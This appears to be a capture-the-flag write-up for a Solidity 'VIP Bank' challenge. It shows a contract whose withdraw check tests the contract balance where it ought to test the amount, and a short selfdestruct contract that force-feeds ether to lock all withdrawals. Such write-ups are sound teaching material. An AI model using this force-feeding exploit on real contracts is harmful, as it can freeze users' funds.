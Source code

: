 # VIP Bank

## Challenge

We get a contract 

```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.7;

contract VIP_Bank{
    address public manager;
    mapping(address => uint) public balances;
    mapping(address => bool) public VIP;
    uint public maxETH = 0.5 ether;

    constructor() {
        manager = msg.sender;
    }

    modifier onlyManager() {
        require(msg.sender == manager , "you are not manager");
        _;
    }

    modifier onlyVIP() {
        require(VIP[msg.sender] == true, "you are not our VIP customer");
        _;
    }

    function addVIP(address addr) public onlyManager {
        VIP[addr] = true;
    }

    function deposit() public payable onlyVIP {
        require(msg.value <= 0.05 ether, "Cannot deposit more than 0.05 ETH per transaction");
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public onlyVIP {
        require(address(this).balance <= maxETH, "Cannot withdraw more than 0.5 ETH per transaction");
        require(balances[msg.sender] >= _amount, "Not enough ether");
        balances[msg.sender] -= _amount;
        (bool success,) = payable(msg.sender).call{value: _amount}("");
        require(success, "Withdraw Failed!");
    }

    function contractBalance() public view returns (uint){
        return address(this).balance;
    }
}
```

Our goal is to lock the VIP users balance.

## Solution

In this case the vulnerability is pretty easy to spot. We should check if the amount we want to withdraw is bigger than maxETH but insteas we are checking if the balance of our contract is bigger than that. That results in the case, that if the balance of our contract ever goes above 0.5 eth, noone is able to withdraw anything anymore.

We should intentionally be protected against this by setting the deposit function to VIPOnly. nevertheless we can force feed solidity contracts using selfdestruct. I just used a simple template contract for force feeding:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Forced{
    constructor () public payable {
        selfdestruct(0x570F2d712F9247d8eeaC3bf9ef1300b1b29cF480);
    }
}
```

After this we are not able to withdraw any money anymore
